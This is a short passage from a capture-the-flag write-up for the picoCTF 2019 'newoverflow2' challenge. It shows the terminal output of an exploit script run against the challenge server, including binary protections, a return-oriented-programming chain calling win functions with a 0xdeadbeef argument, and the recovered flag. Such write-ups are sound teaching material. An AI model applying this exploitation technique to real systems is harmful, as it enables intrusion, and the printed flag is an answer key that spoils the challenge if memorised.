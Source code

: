 ### 5. Run it on the server to win
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py REMOTE
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'vuln'
[*] 0x0000:         0x4009a3 pop rdi; ret
    0x0008:       0xdeadbeef [arg0] rdi = 3735928559
    0x0010:         0x400767 win_fn1
    0x0018:         0x4007b4
    0x0020:       0xeeeeeeee
    0x0028:         0x4007be win_fn()
[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 1966372
Welcome to 64-bit. Can you match these numbers?

picoCTF{r0p_1t_d0nT_st0p_1t_3b39d86e}
```